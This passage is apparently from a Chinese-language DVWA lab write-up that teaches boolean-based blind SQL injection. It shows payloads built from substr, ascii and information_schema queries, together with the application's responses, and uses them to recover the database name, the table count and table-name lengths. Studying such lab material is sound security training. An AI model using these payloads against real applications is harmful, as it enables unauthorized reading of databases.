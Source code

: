   ```
  1' and length(database())=len#
  ```

  这里去len=1,2,3都是返回`User ID is MISSING from the database.`

  当取len=4的时候返回`User ID exists in the database.`所以判断数据库长度为4

- 猜测数据库的名称

  逐个判断数据名的每一个字符，用对应的ASCALL码来判断相等，这里常用二分法来判断。注意这里截取字符串开始下标是从1开始的

  ```
  1' and ascii(substr(database(),1,1))>90  #
  =>User ID exists in the database.
  
  1' and ascii(substr(database(),1,1))>100 #
  =>User ID is MISSING from the database.    说明第一个字符的ascall在91-100之间
  
  1' and ascii(substr(database(),1,1))>95 #
  =>User ID exists in the database.    在96-100之间
  
  1' and ascii(substr(database(),1,1))>98 #
  =>User ID exists in the database.    在99-100之间
  
  1' and ascii(substr(database(),1,1))=99 #
  =>User ID is MISSING from the database.
  
  1' and ascii(substr(database(),1,1))=100 #
  =>User ID exists in the database.    确定是100
  ```

  重复利用以上方法，可以得到数据名为`dvwa`。还可以通过burpsuite爆破或者数据库来源猜测

- 猜测表的数量

  table_name  表名称

  table_schema 数据表所属的数据库名

  ```
  1' and (select count(table_name) from information_schema.tables where table_schema='dvwa')=2 #
  =>User ID exists in the database. 所以表的数量是2
  ```

- 猜测表的长度

  `limit i,j`和`select`共同使用：用于接收select查询的结果从第$i$行开始检索$j$行。一般$i$是第几张表，下标从$0$开始

  ```
  1' and length(substr((select table_name from information_schema.tables where table_schema='dvwa' limit 0,1),1))=9#
  =>User ID exists in the database. 说明第一个表的长度是9
  
  1' and length(substr((select table_name from information_schema.tables where table_schema='dvwa' limit 1,1),1))=5#
  =>User ID exists in the database.  说明第二个表的长度是5
  ```

